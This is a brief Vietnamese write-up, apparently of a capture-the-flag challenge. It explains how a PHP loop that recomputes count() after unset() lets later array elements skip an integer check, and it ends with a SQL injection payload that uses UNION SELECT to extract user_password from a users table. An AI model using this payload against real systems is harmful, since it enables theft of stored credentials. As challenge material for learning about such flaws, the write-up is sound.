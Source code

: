 # Solution

Focus vào đoạn code sau:

```php
$tmp = explode(',',$_GET['ids']);
for ($i = 0; $i < count($tmp); $i++ ) {
    $tmp[$i] = (int)$tmp[$i];
    if( $tmp[$i] < 1 ) {
        unset($tmp[$i]);
    }
}
```

Ta thấy điều kiện dừng của vòng lặp for không hề cố định mà được tính lại bằng `count($tmp)`. Và giá trị này có thể bị thay đổi bởi `unset($tmp[$i])` => lợi dụng điểm này để làm cho các phần tử phía sau của mảng `$tmp` không được check

Final payload:

`a,a,0,1)) UNION SELECT user_password, 2 ,3 FROM users --`
